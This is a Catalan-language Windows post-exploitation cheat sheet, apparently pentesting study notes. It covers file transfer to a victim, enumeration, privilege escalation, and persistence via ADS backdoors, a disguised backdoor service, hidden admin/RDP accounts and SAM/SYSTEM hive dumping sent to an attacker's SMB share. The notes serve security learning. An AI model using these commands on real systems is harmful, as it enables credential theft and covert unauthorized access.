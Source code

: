 # Windows post-exploitation
## Utilities
##### File Transfer
```bash
# HTTP
python -m http.server [port] # Atacant
certutil -f -urlcache http://[ip]:[port]/[file] [output] # Víctima

# SMB
impacket-smbserver [folder] $(pwd) -smb2suport # Atacant
copy \\[ip]\[folder]\[file] [output] # Víctima
```
##### UAC Bypass
L'_User Access Control_ és un panell de confirmació d'execució amb privilegis, i d'introducció de credencials d'administrador si s'escau. Té diferents nivells de seguretat, de baix fins a alt, i hi ha tècniques per poder esquivar-lo, sempre que es tingui accés amb un usuari dins el grup d'administradors.

Per aquesta tècnica, s'utilitza l'eina [UACMe](https://github.com/hfiref0x/UACME) o i es pot trobar una demostració a la màquina [Napper](https://www.youtube.com/watch?v=yKNxdxixfHg) de HTB.
## Local enumeration
--> **Hostname, OS Name, OS Build, Service Pack, OS architecture & hotfixes**
```
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
C:/Windows/System32/eula.txt
```
--> **Current user & privileges, user info, other users, groups, members of the admin group**
```
whoami [/priv]
query user
net users
net user [user]
net localgroup [group]
```
--> **IP, Network Adapter, Internal Networks, TCP/UPD services, hosts, routing, firewall**
```
ipconfig /all
route print
arp -a 
netstat -ano
netsh advfirewall show allprofiles
```
--> **Processes, services, scheduled tasks**
```
tasklist /v | findstr [process]
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo /v LIST
```
> Es pot automatitzar aqauesta enumeració amb [JAWS](https://github.com/411Hall/JAWS) o [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md).
## Privilege escalation
##### Kernel exploits
El kerne és el "sistema nerviós central" del Sistema Operatiu. Fa la funció de traducció entre el hardware i el software del dispositiu, i té control sobre els recursos i el hardware del sistema. En el cas de windows, el kernel és Windows NT i té dos modes, per qüestions de seguretat: User Mode, amb accés limitat, i System Mode, amb accés total.

All llarg dels anys, han anat sortit diferents vulnerabilitats que afecten al kernel de Windows i que, per tant, permetrien augmentar els privilegis de l'atacant al nivell del sistema. L'enumeració manual de totes les vulnerabilitats és massa tediosa, així que se sol utilitzar [sherlock.ps1](, [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), [PowerUP](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) o [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md).
##### Access Token Impersonation
Els Access Token, creats per LSASS, són un element clau del procés d'autenticació de Windows. Serveixen per identificar el context de seguretat i privilegis d’un procés o tasca corrent al sistema, és a dir, com una mena de cookie associada a l’usuari que permet accedir al procés sense haver de proporcionar credencials cada cop. N'hi ha de dos tipus:
- **Impersonate-level:** permet a un procés o thread assumir temporalment la identitat d'un altre usuari. 
- **Delegate-level:** mateixa funció que el impersonate-level però permet passar les credencials a altres sistemes de la xarxa.
La condició principal per a que pugui donar-se el Access Token Impersionation és que hi hagi un dels següents tokens activats: **SeAssignPrimaryToken, SeCreateToken** o **SeImpersonatePrivilege**

Les eines emprades en aquesta tècnica són [FullPowers](https://github.com/itm4n/FullPowers) i [PrintSpoofer.exe](https://github.com/dievus/printspoofer).
##### Config files
Quan un sysadmin configura diversos equips a la vegada, té la possibilitat d'utilitzar una "Unattended Installation", una instal·lació en massa de tots els sistemes amb la mateixa configuració. 

Aquesta instal·lació deixa, posteriorment, un arxiu amb les credencials de l'Administrador que s'han utilitzat per la instal·lació, en text pla o en base64. La localització normal d'aquest arxiu és _C:\Windows\Panther\Unattend.xml_.

> La Santa Bíblia del PrivEsc a Windows: [Windows PrivEsc](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/).
## Persistence
##### Alternate Data Streams
Els ADS són un atribut de NTFS (_New Technology File System)_ dissenyat per proporcionar compatibilitat amb MacOS. Permet emmagatzemar metainformació amb un fitxer dins el propi fitxer. Serveix per amagar codi maliciós en les metadades d'arxius legítims, evadint la detecció de l'antivirus i d'un escaneig.
```bash
# exemple d'arxiu de text amb el backdoor a la metadata
notepad.exe [file]:[backdoor]
mklink [program] [file]:[backdoor] # executar backdoor quan s'executi el programa
```
##### Pass-the-hash
És l'ús de hashes NTLM sense crackejar per autenticar-se al servei objectiu. No és ben bé una explotació del servei sinó una funcionalitat, així que tot i que sigui una vulnerabilitat coneguda seguirà podent utilitzar-se en actualitzacions futures. Per extreure els hashes NTLM de la màquina víctima es necessiten privilegis d'administrador, ja que s'ha d'interactuar amb els registres de Windows SAM y SYSTEM. Es pot fer de les següents maneres:
```bash
# Manualment: 
# A la màquina víctima
reg save HKLM\sam [file]
reg save HKLM\system [file2]
# A la màquina atacant
impacket-smbserver [folder] $(pwd) -smb2support
# A la màquina víctima
copy [file(2)] \\[ip-atacant]\[folder]\[output-file]
# A la màquina atacant
impacket-secretsdump -sam [file1] -system [file2] LOCAL

# crackmapexec
crackmapexec smb -u [user] -p [pass] --sam

# mimikatz (binari pujat a la màquina víctima)
lsa_dump_sam
```
##### Services
Amb privilegis d'administrador, és possible crear un servei que s'executi de forma arbitrària en certes ocasions, per exemple a l'arrencada del sistema. Aquest servei hauria de contenir el backdoor que pogués estaular una consola interactiva al nostre host.
```powershell
New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here." -StartupType Automatic \ sc start Backdoor
```
##### RDP
Encara que no estigui activat, un cop a dins de la màquina víctima i amb privilegis d'administrador és possible obrir el servei de RDP i crear un usuari propi per poder accedir-hi.
```bash
# Atacant
crackmapexec -u [user] -p [pass] -M rdp --action=enable # Obrir RDP

# Víctima
net user [user] [pass] /add # Crear nou usuari
net localgroup Administrators [user] /add # Donar privilegis d'admin a l'usuari
net localgroup "Remote Desktop Users" [user] /add # Poder accedir amb RDP
```
> La Santa Bíblia de la persistència a Windows: [Windows Persistence](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/).
 

